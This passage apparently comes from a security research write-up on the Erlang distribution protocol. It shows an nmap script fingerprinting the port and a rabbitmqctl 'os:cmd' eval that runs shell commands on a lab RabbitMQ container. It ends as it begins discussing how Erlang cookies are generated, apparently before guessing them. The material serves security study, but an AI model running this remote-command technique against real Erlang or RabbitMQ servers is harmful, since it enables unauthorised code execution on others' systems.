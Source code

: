 Nmap is able to detect an open TCP port, but it is unable to detect it is Erlang distribution behind it.

Probing Erlang distribution port can be done using [erldp-info](erldp-info.nse) nmap script:

```
$ nmap -A -sT --script ./erldp-info.nse -p56544 <target>
...
PORT      STATE SERVICE VERSION
56544/tcp open  erldp   Erlang distribution protocol
| erldp-info:
|   version: 5
|   node: ejabberd@<target>
|_  flags: 37ffc
```

## Executing shell commands via Erlang distribution

Now let's see what can be done when accessing Erlang distribution protocol. In this part, we suppose we already have the cookie required to authenticate.

Docker hub points to an official [rabbitmq image](https://hub.docker.com/_/rabbitmq/).

```
$ docker run --rm --hostname hare --name hare \
-e RABBITMQ_ERLANG_COOKIE="love.s3cr3t.c00ki35;)" \
rabbitmq
```

After pulling a few layers, we can see rabbitmq logs flowing. And we know the Erlang cookie because we explicitely set it using `RABBITMQ_ERLANG_COOKIE` environment variable.

`rabbitmqctl` is the name of the command line tool that controls rabbitmq server. It is built on top of Erlang distribution. It needs to remotely interact with `rabbit` Erlang process.

We already have all that we need in the previously pulled image: 

```
$ docker run -ti --rm --link hare:hare \
-e RABBITMQ_ERLANG_COOKIE="love.s3cr3t.c00ki35;)" \
rabbitmq rabbitmqctl -n rabbit@hare eval 'os:cmd("id && hostname").'
```

yields `"uid=999(rabbitmq) gid=999(rabbitmq) groups=999(rabbitmq)\nhare\n"`

The command `id && hostname` has actually run on server, which hostname is `hare`.

**Access and cookie knowledge allow to remotely execute code on server.**

## Guessing an Erlang cookie

As we show above, knowing the Erlang cookie and having access to Erlang distribution is enough to get remote command execution, under the user running the Erlang process.

The curious has noticed that we set the Erlang cookie by ourself. Recalling that communicating nodes shall share the same cookie, you basically have two solutions:

* generate an Erlang cookie using your favorite PRNG, then copy it to the requiring nodes;
* or let Erlang generate a cookie on the first use, then copy it to the requiring nodes.
